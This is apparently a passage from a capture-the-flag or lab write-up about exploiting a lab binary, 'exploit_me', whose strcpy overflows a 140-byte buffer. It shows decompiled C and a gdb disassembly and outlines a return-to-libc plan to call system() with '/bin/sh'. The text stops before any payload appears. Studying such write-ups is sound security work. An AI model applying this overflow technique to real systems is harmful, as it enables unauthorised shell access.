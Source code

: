 So we know that we have to exploit, as it is said, the file `exploit me` , we just need to figure how. We start by importing it :
`scp -P 22 zaz@192.168.56.104:/home/zaz/exploit_me .`
With ghidra, we see that the program is quite simple :

```c
uint main(int param_1,int param_2)

{
  char local_90 [140];
  
  if (1 < param_1) {
    strcpy(local_90,*(char **)(param_2 + 4));
    puts(local_90);
  }
  return (uint)(param_1 < 2);
}
```

The only thing we could exploit here is the variable `local_90`. Indeed, there is a strcpy of the first argument given to our program inside `strcpy`. Inside the man strcpy, we can see this :

The strcpy() function copies the string pointed to by src, including the terminating null byte ('\0'), to the buffer pointed to by dest.  The strings may not overlap, and the destination string dest
       must be large enough to receive the copy.  Beware of buffer overruns!  (See BUGS.)

And that's what we will do. We will put a string larger than 140 character to create a buffer overflow.
There is two ways to exploit a buffer overflow. We can either change the stack directly to call a function with our arguments, or we can put our own script, already compiled, in the overflow and point into the buffer so that our script will be executed.
Here, we will be doing the first option, because `nasm` isn't in the VM.
So how do we do this ?
First we need to find the address of two function we want to call, `system()` and `/bin/sh` .

To do so, we will be using `gdb` :
`gdb ./exploit_me`

With `disass main` 

```assembly
(gdb) disass main
Dump of assembler code for function main:
   0x080483f4 <+0>:	push   %ebp
   0x080483f5 <+1>:	mov    %esp,%ebp
   0x080483f7 <+3>:	and    $0xfffffff0,%esp
   0x080483fa <+6>:	sub    $0x90,%esp
   0x08048400 <+12>:	cmpl   $0x1,0x8(%ebp)
   0x08048404 <+16>:	jg     0x804840d <main+25>
   0x08048406 <+18>:	mov    $0x1,%eax
   0x0804840b <+23>:	jmp    0x8048436 <main+66>
   0x0804840d <+25>:	mov    0xc(%ebp),%eax
   0x08048410 <+28>:	add    $0x4,%eax
   0x08048413 <+31>:	mov    (%eax),%eax
   0x08048415 <+33>:	mov    %eax,0x4(%esp)
   0x08048419 <+37>:	lea    0x10(%esp),%eax
   0x0804841d <+41>:	mov    %eax,(%esp)
   0x08048420 <+44>:	call   0x8048300 <strcpy@plt>
   0x08048425 <+49>:	lea    0x10(%esp),%eax
   0x08048429 <+53>:	mov    %eax,(%esp)
   0x0804842c <+56>:	call   0x8048310 <puts@plt>
   0x08048431 <+61>:	mov    $0x0,%eax
   0x08048436 <+66>:	leave  
   0x08048437 <+67>:	ret    
End of assembler dump.
```
